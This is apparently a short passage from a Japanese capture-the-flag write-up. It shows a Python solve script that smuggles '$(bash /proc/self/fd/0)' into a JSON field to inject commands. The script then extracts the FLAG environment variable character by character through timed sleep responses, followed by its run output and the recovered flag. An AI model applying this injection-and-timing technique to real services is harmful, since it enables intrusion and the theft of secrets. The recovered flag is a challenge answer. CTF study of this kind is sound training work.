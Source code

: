 ```python
    for c in candidates:
        content = f'[ "${{FLAG:{i}:1}}" = "{c}" ] && sleep 3'
        json_data = {"pageId": "$(bash /proc/self/fd/0)", "content": content}

        start = time.time()
        try:
            requests.post(url, json=json_data, headers=headers, timeout=10)
        except requests.exceptions.Timeout:
            pass
        end = time.time()

        elapsed = end - start

        if elapsed > 2:
            flag += c
            found_char = c
            print(f"[+] Found char '{c}' => {flag}")
            i += 1
            break

        time.sleep(0.5)

    if found_char == "}":
        break

    if not found_char:
        print(f"[!] Could not find char at position {i}. Current flag: {flag}")
        break
```
実行する。  
```bash
$ python solve.py
[+] Found char 'H' => CPCTF{H
[+] Found char '!' => CPCTF{H!
[+] Found char 'd' => CPCTF{H!d
[+] Found char 'e' => CPCTF{H!de
[+] Found char 'E' => CPCTF{H!deE
[+] Found char 'r' => CPCTF{H!deEr
[+] Found char 'r' => CPCTF{H!deErr
[+] Found char '0' => CPCTF{H!deErr0
[+] Found char 'r' => CPCTF{H!deErr0r
[+] Found char 'N' => CPCTF{H!deErr0rN
[+] Found char '0' => CPCTF{H!deErr0rN0
[+] Found char 't' => CPCTF{H!deErr0rN0t
[+] Found char '5' => CPCTF{H!deErr0rN0t5
[+] Found char '4' => CPCTF{H!deErr0rN0t54
[+] Found char 'f' => CPCTF{H!deErr0rN0t54f
[+] Found char 'e' => CPCTF{H!deErr0rN0t54fe
[+] Found char '}' => CPCTF{H!deErr0rN0t54fe}
```
flagが得られた。  

## CPCTF{H!deErr0rN0t54fe}